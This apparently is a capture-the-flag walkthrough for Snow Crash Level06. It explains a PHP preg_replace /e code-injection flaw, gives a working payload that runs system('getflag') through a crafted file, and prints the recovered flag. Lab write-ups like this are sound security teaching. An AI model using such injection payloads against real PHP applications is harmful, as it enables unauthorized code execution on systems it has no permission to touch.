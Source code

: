 ## Snow Crash - Level06 Walkthrough

### 🔍 Discovery

After logging in as `level06`, we find two files in the home directory:
```
level06
level06.php
```

We inspect `level06.php`:
```php
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

### 🧠 Understanding the Vulnerability

The critical vulnerability lies in this line:
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

- The `/e` modifier **evaluates the replacement as PHP code**.
- If we control the input file, we can inject PHP code and have it executed.

### 🧪 Crafting the Exploit

We prepare a file with the following payload:
```bash
echo "[x {${system('getflag')}}]" > /tmp/exploit06
```

This matches the pattern `\[x (.*)\]`, where `.*` becomes `{${system('getflag')}}`, and due to the `/e` modifier, this results in execution of `system('getflag')`.

### 🚀 Running the Exploit

We run the vulnerable script with the crafted payload:
```bash
./level06 /tmp/exploit06
```

### 🎯 Result

```
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

Despite a few PHP Notices, the flag is successfully retrieved!

### 📚 Notes

- This challenge highlights the danger of the `/e` modifier in `preg_replace`, which has been **deprecated as of PHP 5.5.0** and **removed in PHP 7.0.0**.
- It shows how improperly handling user input and evaluating it as code can lead to Remote Code Execution (RCE).
-
- https://stackoverflow.com/questions/65024562/how-can-e-regex-expression-be-misused-on-a-php-code-snippet-running-on-my-ser
